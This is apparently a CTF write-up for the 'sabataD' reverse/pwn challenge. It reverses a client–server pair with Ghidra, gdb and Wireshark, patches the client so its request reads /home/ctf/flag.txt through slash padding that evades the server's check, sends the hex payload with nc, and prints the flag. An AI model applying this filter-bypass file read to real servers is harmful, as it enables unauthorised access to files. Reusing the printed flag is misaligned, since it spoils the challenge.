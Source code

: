 [../](../../)

# sabataD

## reverse / pwn - Points: 220

> !tuo ti kcehc s'tel ,woW !llewsa ti rof ipa na tuo gnivig era yeht dna ho ,esabatad looc repus wen a evah elgoog draeh i
>
> nc 13.48.192.7 50000
>
> [client](client)
>
> [server](server)

## Solution

You were given two programs, one acts as a server and the other one as a client. Obviously the server is the remote target that you have to exploit to get the flag.

So lets check how these two programs work and interact with each other. They are configured to run locally by default, so you can simply run first the `server` and then the `client` afterwards. The client first asks for a name and you have to find the correct username to proceed.

When you open the `server` binary in `Ghidra`, you can see that there is a `strcmp` with the hardcoded string `watevr-admin` at `0x101042`, so you have to use this username.

You can also see another `strcmp` right after it that checks for the file path `/home/ctf/flag.txt` and should probably prohibit the access to that file. This hints us that we have to access that file on the remote server, so I created that file locally.

When entering that username, the server first crashes for me, so I started debugging it in `gdb`, where I could observe that it tries to access the file `/home/ctf/database.txt`, which not exists on my machine. So I also created that file at this path with some random content and then the server was able to open that file and returned its contents to the client.

But where comes that filename from? I could not find that string in any way in the server program, so it must be requested by the client program. Now I started `wireshark` and captured the local network traffic at the port the programs are configured to use, which is `1337`, to see how the data exchange between server and client looks like.

The data for the request looks like this:

	536a2f726e7567676270727a75697220652f732d70656e676271737a7a2f20767173616e765f67795f6e725f6f205f6e6a5f66765f72675f2e755f67205f6b765f67615f5f715f5f725f5f6b5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f3234000a005f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f000000000000000000000000000000000000000000000000

When you decode that hexstring, it contains the following:

	Sj/rnuggbprzuir e/s-pengbqszz/ vqsanv_gy_nr_o _nj_fv_rg_.u_g _kv_ga__q__r__k___________________________________________________________________________24\x00\n\x00____________________\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00

It seems we can not simply replace that file path to request access to the `/home/ctf/flag.txt`, so its time to analyze the client binary in `Ghidra`. I first searched for that string that contains the file path and could find the bytes at `0x100cc3`, `0x100ccd`, `0x100ce5`:

	  local_1b8 = 0x74632f656d6f682f;
	  local_1b0 = 0x6162617461642f66;
	  local_1a8 = 0x7478742e6573;

If you decode them you get `/home/ctf/database.txt`, so I tried to patch the bytes to let them contain `/home/ctf/flag.txt`. I decided to try it directly inside `gdb`. I set a breakpoint before the use of that addresses, e.g. at the start of the function at `0x100c4a`. Keep in mind that we have to store the string bytes in reverse order due to Big-Endianness.

 - `local_1b8` contains the first 8 bytes of the path, which is `tc/emoh/`, so nothing to patch here.
 - `local_1b0` contains `abatad/f` (`0x6162617461642f66`), so lets change it to `t.galf/f` (`0x742e67616c662f66`)
 - `local_1a8` contains `txt.es` (`0x7478742e6573`), so lets change it to `xt` (`0x000000007478`)

To modify the addresses I used the following commands inside `gdb`:

	set {int}0x0000555555554ccd = 0x6c662f66
	set {int}0x0000555555554cd1 = 0x742e6761
	set {int}0x0000555555554ce5 = 0x00007478
	set {int}0x0000555555554ce9 = 0x00000000

Then I continued execution and it seemed to work that the client now requests another file, but again the server crashed. Inside `gdb` I could see that the server now receives the following:

	x/s 0x7fffffffe010-0x220
	0x7fffffffddf0:	"/home/ctf/flag.txt\367\367\377\177"

So there are 4 non-printable extra bytes that corrupt the filename. This is probably due to the fact, that the filename is 4 characters shorter now? So I simply added some padding and changed the bytes so that the file path now contains `/home/ctf/////flag.txt` what is still evaluated to `/home/ctf/flag.txt`. (Obviously this also solves the access to the prohibited file path via that `strcmp` in the server)

	set {int}0x0000555555554ccd = 0x2f2f2f66
	set {int}0x0000555555554cd1 = 0x6c662f2f
	set {int}0x0000555555554ce5 = 0x742e6761
	set {int}0x0000555555554ce9 = 0x00007478

And it works! Now I get the contents of the `flag.txt` file, which I created at the beginning. Then I captured the request payload again with `wireshark` and sent it to the remote server and received the flag! :)

		python2 -c "print('536a2f726e7567676270727a75697220652f732d70656e676271737a7a2f20762f73612f765f2f795f2f725f73205f796a5f6e765f74675f2e755f67205f6b765f67615f5f715f5f725f5f6b5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f3134000a005f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f5f000000000000000000000000000000000000000000000000'.decode('hex'))" | nc 13.48.192.7 50000

flag: `watevr{sql_is_overrated_use_txt_instead!_youtube.com/watch?v=7PCkvCPvDXk}`
